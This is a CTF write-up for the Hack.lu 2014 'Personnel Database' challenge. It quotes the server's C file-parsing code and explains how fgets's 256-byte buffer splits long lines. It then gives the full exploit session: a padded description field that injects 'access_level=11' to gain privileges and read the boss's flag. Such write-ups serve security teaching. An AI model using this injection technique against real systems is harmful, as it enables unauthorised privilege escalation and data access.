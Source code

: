 ```yaml
---
layout: post
title: "Personnel Database"
date: 2014-10-23
ctf: Hack.lu 2014
author: Piotr Kordy
---
```


*Category:* Exploiting

*Points:* 150

*Author:* TheJH

*Description:*

Lots of criminals in this area work for one big boss, but we have been unable
to determine who he is. We know that their organization has one central
personnel database that might also contain information about their boss,
whose username is simply “boss”. However, when you register in their system,
you only get access level zero, which is not enough for reading data about
the boss - that guy is level 10. Do you think you can get around their
protections?

link: [personnel_database_server_67e4ead6aeb111cc19de03d1f3d15fab.c][1]

`nc wildwildweb.fluxfingers.net 1410`

Note: The users dir will be wiped every 5 minutes.


Write-up
--------

We are given a source code of the program running on the server. We can run the
following commands:

 - `whoami` - prints user name
 - `user` 'username' - set user name for login
 - `pass` 'password' - provides password and logins us
 - `register` 'username:password' - registers new user
 - `set_description` *description' - registers new user
 - `logout` - logs us out and writes changes to the file
 - `whois` 'username' - prints info about user - we must have higher acces rights than the user
 - `levelup` 'username' - increases the access level for the user, but we must have higher access level.

Each user have user name, password, access level and descripiton. Usernames are
sanitized to match [a-zA-Z0-9_]{1,20}. The data about each user is stored in
separate file in `users` directory. The interesting part is how the data about
the user is read from the file:

{% highlight c %}
struct userdata *read_userfile(char *user) {
  struct userdata *res = calloc(1, sizeof(*res));
  if (res == NULL) return NULL;
  int fd = open_userfile(user, O_RDONLY);
  if (fd == -1) return NULL;
  FILE *f = fdopen(fd, "r");
  if (f == NULL) { close(fd); return NULL; }
  char line[256];
  while (fgets(line, sizeof(line), f)) {
    rtrim(line);
    char *key = line;
    char *eqsign = strchr(line, '=');
    if (!eqsign) continue;
    *eqsign = '\0';
    char *value = eqsign+1;

    if (!strcmp(key, "hash")) res->hash = atoll(value);
    else if (!strcmp(key, "access_level")) res->access_level = atoi(value);
    else if (!strcmp(key, "description")) strcpy(res->description, value);
    else printf("fatal error: bad key \"%s\" in config, aborting\n", key), exit(1);
  }
  return res;
}
{% endhighlight %}

Each line is parsed separatly, but it can be at
most 256 bytes (size of the buffer used). So line longer than 256 bytes will be
read as two separate lines. Here is the example file with user's data:

	hash=770370358
	access_level=0
	description=some description with = sign

The idea is to submit line with proper length that will be interpreted as two
lines. In this way we can set our priviliges to high value. 

Here is the list of commands that gives us the flag:

	nc wildwildweb.fluxfingers.net 1410
	> register a:password
	user created successfully
	> set_description ***************************************************************************************************************************************************************************************************************************************************access_level=11
	description set
	> logout
	Uh, who are you again? I have forgotten.
	> user a
	username accepted, please provide password
	> pass password
	login ok
	> whois boss
	user	boss
	level	10
	descr	"flag{this_is_why_gets_is_better_than_fgets}"


[1]: {{site.url}}/assets/2014/personnel_database_server_67e4ead6aeb111cc19de03d1f3d15fab.c      "file"


